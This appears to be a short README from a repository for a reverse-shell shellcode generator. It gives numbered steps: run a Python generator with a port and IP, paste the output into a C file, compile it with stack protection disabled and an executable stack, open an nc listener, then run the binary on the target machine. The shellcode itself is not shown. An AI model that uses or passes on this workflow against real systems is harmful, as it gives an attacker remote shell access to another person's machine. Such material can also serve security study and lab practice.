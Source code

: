 1. Run ./shellcode-generator.py PortNumber IpAddress
    - (ie ./shellcode-generator.py 4444 10.0.7.17)
2. Paste shellcode into shellcode.c
3. Compile with: gcc shellcode.c -o shellcode -fno-stack-protector -z execstack
4. On machine to connect to: nc -nvlp port-number
5. From machine to connect from: ./shellcode
6. Done

